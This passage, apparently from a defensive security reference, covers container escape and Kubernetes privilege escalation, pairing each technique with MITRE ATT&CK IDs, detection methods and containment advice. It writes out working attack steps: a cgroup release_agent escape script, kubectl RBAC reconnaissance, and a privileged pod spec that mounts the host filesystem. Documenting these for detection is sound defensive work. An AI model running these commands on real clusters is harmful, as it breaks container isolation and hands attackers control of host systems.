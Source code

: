      # Using SYS_ADMIN to mount host filesystem (attack)
     mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
     echo 1 > /tmp/cgrp/x/notify_on_release
     host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
     echo "$host_path/exploit" > /tmp/cgrp/release_agent
     touch /tmp/exploit
     chmod +x /tmp/exploit
     sh -c "echo '#!/bin/sh' > /tmp/exploit"
     sh -c "echo 'ps > $host_path/output' >> /tmp/exploit"
     ```

   - **MITRE ATT&CK**: T1611 (Escape to Host)
   - **Detection Method**: Unusual capability usage, mount namespace changes
   - **Containment Strategy**: Limit container capabilities, drop unnecessary capabilities

### Kubernetes Privilege Escalation

1. **Role-Based Access Control (RBAC) Abuse**
   - **Description**: Exploiting overly permissive RBAC policies
   - **Common Vectors**: Excessive permissions, wildcards in Role definitions
   - **Example Commands**:

     ```bash
     # Checking current permissions (reconnaissance)
     kubectl auth can-i --list

     # Creating privileged pod (attack if allowed)
     kubectl create -f privileged-pod.yaml
     ```

   - **MITRE ATT&CK**: T1078.004 (Valid Accounts: Cloud Accounts)
   - **Detection Method**: Kubernetes audit logging, unusual RBAC usage
   - **Containment Strategy**: Implement least privilege RBAC, avoid wildcards in roles

2. **Pod Security Context Exploitation**
   - **Description**: Deploying pods with privileged security contexts
   - **Common Vectors**: Allowed privileged containers, hostPath volumes
   - **Example YAML**:

     ```yaml
     # Privileged pod specification (attack)
     apiVersion: v1
     kind: Pod
     metadata:
       name: privileged-pod
     spec:
       containers:
       - name: shell
         image: alpine
         command: ["/bin/sh", "-c", "sleep 1000000"]
         securityContext:
           privileged: true
         volumeMounts:
         - mountPath: /host
           name: hostfs
       volumes:
       - name: hostfs
         hostPath:
           path: /
     ```